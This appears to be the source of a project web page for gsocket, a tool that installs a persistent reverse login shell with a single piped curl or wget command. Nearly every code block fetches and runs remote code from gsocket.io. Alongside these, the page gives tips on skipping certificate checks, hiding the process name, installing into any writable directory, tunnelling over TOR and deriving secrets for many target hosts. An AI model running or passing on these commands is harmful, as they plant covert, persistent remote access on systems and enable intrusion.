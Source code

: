 ```yaml
---
layout: default
---
```


<h2 align="center">Index -- Test version</h2>

<p class="panel-note2" markdown="1">Deploy a reverse login shell with a *single command* (fully automated) - and access the shell remotely - encrypted - and via TOR if you like.</p>



> _This must be the quickest way to access a system_
>                                                 -- anonymous

Use either one of these two commands to _install_:

<div class="tabs-container">
    <div class="tabs">
        <div class="tab">
            <!-- "checked" means active tab -->
            <input type="radio" name="css-tabs-dl" id="curl-dl" class="tab-switch" checked>
            <!-- This is the tab selector -->
            <label for="curl-dl" class="tab-label">Curl</label>
            <!-- This is the tab content container -->
            <div class="tab-content">
                <!-- This is an attempt to reproduce syntax highlighting -->
                <div class="language-shell highlighter-rouge">
                    <div class="highlight">
                        <pre class="highlight"><code>
                        bash -c "$(curl -fsSL gsocket.io/x)"
                        </code></pre>
                    </div>
                </div>
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs-dl" id="wget-dl" class="tab-switch">
            <label for="wget-dl" class="tab-label">Wget</label>
            <div class="tab-content">
                <pre><code class="shell">
                bash -c "$(wget --no-verbose -O- gsocket.io/x)"
                </code></pre>
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs-dl" id="test-dl" class="tab-switch">
            <label for="test-dl" class="tab-label">Test</label>
            <div class="tab-content">
                {% highlight shell %}
                bash -c "$(curl -fsSL gsocket.io/x)"
                {% endhighlight %}
            </div>
        </div>
    </div>
</div>

Use either one of these two commands to _uninstall_:
```shell
GS_UNDO=1 bash -c "$(curl -fsSL gsocket.io/x)"
```
```shell
GS_UNDO=1 bash -c "$(wget --no-verbose -O- gsocket.io/x)"
```

Use either command to _access_ the remote host:
```shell
S="ExampleSecretChangeMe" bash -c "$(curl -fsSL gsocket.io/x)"
```
```shell
S="ExampleSecretChangeMe" bash -c "$(wget --no-verbose -O- gsocket.io/x)"
```

<p class="panel-note2" markdown="1">This is just one of many GSOCKET examples. More on [GitHub]({{site.github.repository_url}}).</p>

{:refdef: style="text-align: center;"}
## Screenshots
{: refdef}
Deploy on a host
{:refdef: style="text-align: center;"}
![Deploy-Example](../assets/images/deploy-example.png)
{: refdef}
Log in to the host from your workstation
{:refdef: style="text-align: center;"}
![Deploy-Login](../assets/images/deploy-login.png)
{: refdef}

{:refdef: style="text-align: center;"}
## Tips & Tricks
{: refdef}

Ignore SSL / Certificate warnings:
```shell
bash -c "$(curl -fsSLk gsocket.io/x)"
```
```shell
bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"
```

Deploy with a predefined secret:
```shell
X=ExampleSecretChangeMe bash -c "$(curl -fsSL gsocket.io/x)"
```

Deploy with *curl* and fallback to *wget*:
```shell
command -v curl >/dev/null && bash -c "$(curl -fsSL gsocket.io/x)" || bash -c "$(wget --no-verbose -O- gsocket.io/x)"
```

Deploy with a predefined secret. Try *curl* and fallback to *wget*:
```shell
X=ExampleSecretChangeMe && (command -v curl >/dev/null && X=$X bash -c "$(curl -fsSL gsocket.io/x)" || X=$X bash -c "$(wget --no-verbose -O- gsocket.io/x)")
```
  
Deploy from self-extracting shell-script [deploy-all.sh](https://github.com/hackerschoice/binary/raw/main/gsocket/bin/deploy-all.sh) without fetching any packages and using good old plain HTTP:
```
wget --no-hsts http://nossl.segfault.net/deploy-all.sh && \
bash ./deploy-all.sh
```

Useful environment variables:  

|:---|:---|
|S=|Connect to a system (or use `gs-netcat -s <secret> -il`).|
|X=|Set a predefined secret for the installation (X like in inXstallation).|
|GS_NOINST=1|Only start but without installing (will not survive a reboot).|
|GSOCKET_ARGS=|Use additonal arguments. Most often used to force TOR in combination with S=, e.g. `GSOCKET_ARGS="-T" S=<secret> bash -c "$(curl -fsSLk gsocket.io/x)`.|
|GS_DSTDIR=|Set the installation directory. The default is to pick the most suitable automatically. Use `find . -type d -writable`. |
|GS_URL_BASE=|Use URL for static binaries. The default is https://github.com/hackerschoice/binary/raw/main/gsocket/bin/.|
|GS_OSARCH=|Force architecture. The default is to pick the most suitable automatically.
|GS_DEBUG=1|Verbose output and other debug related settings. Often used together with `GS_DEBUG=1 GS_NOSTART=1 GS_NOINST=1 bash -c "$(curl -fsSL gsocket.io/x)"`.|
|GS_HIDDEN_NAME=|Use a custom hidden process name.|
|TMPDIR=|Use a custom temporary directory. Try TMPDIR=$(pwd)|

If all fails:

Download the static binary from [https://github.com/hackerschoice/binary/tree/main/gsocket/bin](https://github.com/hackerschoice/binary/tree/main/gsocket/bin) (likely [gs-netcat_x86_64-alpine.tar.gz](https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-alpine.tar.gz)) and extract and start gs-netcat manually:
```shell
curl -fsSL https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-alpine.tar.gz | tar xz -C /bin gs-netcat
SECRET=$(/bin/gs-netcat -g)
GSOCKET_ARGS="-liD -s $SECRET" /bin/gs-netcat
echo "Connect with: gs-netcat -s $SECRET -i" 
```

{:refdef: style="text-align: center;"}
## Advanced Tips & Tricks
{: refdef}

Remembering many secrets from many deployments is cumbersome. It is easier to remember just one MASTER-SEED and derive the SECRET from the target's hostname. The following script generates a secure SECRET based on a single MASTER-SEED and the target's hostname.
```sh
# cut & paste this into your shell on your workstation or add to ~/.bashrc
gssec()
{
    str="$(echo "${GS_SEED:?}$1" | sha512sum | base64 | tr -d -c a-z0-9)"
    str="${str:0:22}"
    echo "DEPLOY: X=${str}"' bash -c "$(curl -fsSL gsocket.io/x)"'
    echo "ACCESS: S=${str}"' bash -c "$(curl -fsSL gsocket.io/x)"'
    echo "ACCESS: gs-netcat -s ${str} -i"
}
# Pick a STRONG master seed:
[[ -z $GS_SEED ]] && GS_SEED=MySuperStrongMasterSeed
```

```sh
# Generate a SECRET based on the SEED and 'alice.com'
$ gssec alice.com # You only need to know "alice.com" to connect.

# Output from above's command:
DEPLOY: X=2m1zidi1zkkmxjjj0z0jlj bash -c "$(curl -fsSL gsocket.io/x)"
ACCESS: S=2m1zidi1zkkmxjjj0z0jlj bash -c "$(curl -fsSL gsocket.io/x)"
ACCESS: gs-netcat -s 2m1zidi1zkkmxjjj0z0jlj -i
```

<p class="panel-note" markdown="1">Get Involved. We are looking for volunteers to work on the website and a logo and to discuss new ideas. [Join us on telegram](https://t.me/thcorg).</p>




